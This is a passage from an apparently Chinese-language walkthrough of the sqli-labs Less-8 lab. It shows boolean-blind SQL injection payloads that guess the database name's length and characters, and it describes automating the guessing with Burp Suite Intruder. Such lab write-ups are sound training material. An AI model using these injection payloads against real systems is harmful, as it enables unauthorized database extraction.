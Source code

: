   ```
  /sqlilabs/Less-8/
  ?id=1' and length(database())=7 -- s
  ```

  ![](/assets/images/8-6.png)

  ```
  /sqlilabs/Less-8/
  ?id=1' and length(database())=8 -- s
  ```

​	![](/assets/images/8-7.png)

​	得到数据库名长度为8 （后续使用Burp Suite更为高效）

- 爆破数据库的每一位字符（8字符）

  ```
  /sqlilabs/Less-8/
  ?id=1' and ascii(substr(database(),1,1))=115 -- s
  ```

  ![](/assets/images/8-8.png)

  每一位字符都要进行多次猜测，我们选择使用Burp Suite的Intruder模式

  BP开启拦截 => 抓包 => 转发至Intruder => 设置两个Payload位置（字符位置和ASCII码值）使用Clusterbomb模式
